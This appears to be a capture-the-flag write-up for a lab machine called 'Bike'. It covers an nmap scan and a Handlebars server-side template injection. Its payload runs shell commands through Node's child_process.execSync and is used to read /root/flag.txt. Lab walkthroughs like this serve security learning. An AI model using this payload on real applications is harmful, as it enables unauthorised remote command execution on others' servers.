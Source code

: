 ![Bike.png](/assets/Tier-1/Bike/Bike.jpeg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 1 10.129.97.64
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.97.64
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

3. Visit web page

![web.PNG](/assets/Tier-1/Bike/web.PNG)

4. Execute a SSTI exploit

![submit.PNG](/assets/Tier-1/Bike/submit.PNG)


**Output**

![ssti.PNG](/assets/Tier-1/Bike/ssti.PNG)

5. Use https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#identify to get code for execute commands.

![nodejs.PNG](/assets/Tier-1/Bike/nodejs.PNG)

6. After execute the command you add this line:

`{{this.push "return process.mainModule.require('child_process').execSync('<command>')"}}`

7. Use BurpSuite to do this.

* Go to **Decoder** and paste all code 

![encoder.PNG](/assets/Tier-1/Bike/encoder.PNG)

* Encode in **URL**
---

Paste code encoded in petition

![petition.PNG](/assets/Tier-1/Bike/petition.PNG)

**Output**

![output.PNG](/assets/Tier-1/Bike/output.PNG)


8. Read **flag**

```js
{{this.push "return process.mainModule.require('child_process').execSync('cat  /root/flag.txt')"}}
```

**Output**

![flag.PNG](/assets/Tier-1/Bike/flag.PNG)



